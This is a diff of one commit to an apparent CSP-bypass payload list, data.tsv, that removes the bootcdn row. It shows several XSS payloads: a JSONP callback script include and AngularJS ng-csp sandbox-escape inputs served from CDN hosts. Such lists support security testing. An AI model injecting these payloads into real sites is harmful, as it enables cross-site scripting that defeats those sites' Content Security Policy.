

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

Commit message:
remove bootcdn, it is down

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -44,3 +44,2 @@ cas.criteo.com	<script src="https://cas.criteo.com/delivery/0.1/napi.jsonp?zonei
 cdn.arkoselabs.com	<script src="https://cdn.arkoselabs.com/fc/a/?callback=alert"></script>
-cdn.bootcdn.net	<body ng-app ng-csp><script src="https://cdn.bootcdn.net/ajax/libs/angular.js/1.8.0/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
 cdn.jsdelivr.net	<body ng-app ng-csp><script src="https://cdn.jsdelivr.net/npm/angular@1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
```
